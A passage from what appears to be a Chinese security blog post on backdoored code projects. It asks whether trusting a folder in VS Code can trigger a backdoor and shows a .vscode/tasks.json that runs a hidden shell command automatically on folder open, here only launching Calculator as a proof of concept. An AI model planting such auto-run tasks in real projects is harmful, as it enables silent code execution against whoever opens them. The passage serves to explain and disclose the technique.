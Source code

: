 ![](https://rzx1szyykpugqc-1252075454.piccd.myqcloud.com/vscode-door/a61067d8-a4a5-41a3-9126-105a39976ff6.png!blog#width-zoom5)

![](https://rzx1szyykpugqc-1252075454.piccd.myqcloud.com/vscode-door/fd72b806-5618-4157-8ff5-4603ac3bde65.png!blog#width-zoom7)

这鱼钓的。。。所以它俩是搭配使用的，这就说的通了。

vscode 能否触发后门？
--------------

至此，还剩最后一个问题，就是网传用 vscode 打开之后，点击信任文件夹也可能会被日。那么到底存不存在这种可能性呢？如果可能的话，那么具体要如何复现呢？

### 文件夹的信任模式

vscode 会在你打开一个新的文件夹时提示：

![](https://rzx1szyykpugqc-1252075454.piccd.myqcloud.com/vscode-door/3076b2de-b6f4-4357-b6d4-fc6e42d9123a.png!blog#width-zoom7)

由于我没用过 vscode，一般用的是 sublime，所以我特意去官网上看了下这个操作的含义：

https://code.visualstudio.com/docs/editor/workspace-trust#\_trusting-a-workspace

设置为不信任模式，主要是通过禁用或限制几个 vscode 功能的操作来阻止自动代码执行，包括：task、debug、工作区设置和插件。所以我们可以尝试通过这几种配置来制作后门。

### 门中门

为了实现我们的目的，首先需要创建一个 `.vscode` 目录。

由于精力有限，我就测试了两种方式。

#### tasks.json 后门

看了下 task 的配置，文件名就叫 `tasks.json`，配置如下：

1  
2  
3  
4  
5  
6  
7  
8  
9  
10  
11  
12  
13  
14  
15  
16  

    {    "version": "1.0.0",    "tasks": [        {            "label": "x",            "type": "shell",            "command": "calc; open -a /System/Applications/Calculator.app",            "presentation": {                "reveal": "never"            },            "runOptions": {                "runOn": "folderOpen",            }        }    ]}
